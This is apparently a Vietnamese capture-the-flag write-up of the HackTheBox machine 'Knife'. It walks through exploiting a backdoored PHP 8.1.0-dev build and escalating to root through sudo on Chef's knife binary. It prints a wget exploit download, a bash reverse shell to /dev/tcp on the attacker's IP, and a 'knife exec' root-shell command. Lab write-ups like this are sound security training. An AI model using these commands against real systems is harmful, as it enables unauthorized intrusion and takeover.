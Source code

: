 # Write-up Machine "Knife" - Easy - HTB

## Bước 1: Enumeration

Sử dụng nmap để quét, em có được thông tin máy nạn nhân mở 2 cổng là 22 cho SSH và 80 cho HTTP

![](knife/1.jpg)

Kiểm tra web service tại cổng 80, em có được thông tin phiên bản PHP là 8.1.0-dev, phiên bản này chứa lỗ hổng cho phép RCE: https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html

![](knife/2.jpg)

## Bước 2: Lấy user flag

Tiến hành tải payload tại link: https://packetstormsecurity.com/files/download/162749/php_8.1.0-dev.py.txt
`wget https://packetstormsecurity.com/files/download/162749/php_8.1.0-dev.py.txt -O exploit.py`. Sau khi tải xong, em tiến hành sử dụng payload để chạy dòng lệnh "id" xem payload có hoạt động không

![](knife/3.jpg)

Tiến hành cd vào thư mục của người dùng james, đọc file user.txt sẽ có được user flag

![](knife/4.jpg)

## Bước 3: Lấy system flag

Sử dụng lệnh `sudo -l` để xem user james có thể thực thi lệnh nào với quyền root mà ko cần mật khẩu, em có được user james có thể thực thi knife binary

![](knife/5.jpg)

Knife là một công cụ tự động bởi chef: https://docs.chef.io/workstation/knife/. `sudo knife` cho chúng ta xem các sub command của knife

![](knife/6.jpg)

Knife cũng cho phép thực thi lệnh bằng `exec`.

![](knife/7.jpg)

Trước tiên cần tạo reverse shell sử dụng payload ở bước 2: `python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.38/4444 0>&1'"`. Sau khi đã có reverse shell thì sử dụng lệnh `sudo knife exec --exec "exec '/bin/sh -i' " ` để đạt được root shell.

![](knife/8.jpg)